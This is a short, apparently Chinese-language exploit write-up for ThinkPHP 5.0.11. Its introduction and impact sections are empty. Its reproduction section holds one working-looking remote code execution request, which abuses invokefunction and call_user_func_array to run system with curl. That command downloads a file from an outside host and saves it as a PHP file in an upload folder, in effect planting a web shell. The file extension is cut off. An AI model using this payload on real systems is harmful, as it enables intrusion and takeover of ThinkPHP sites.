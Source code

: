 Thinkphp 5.0.11
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    http://www.0-sec.org/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.ph
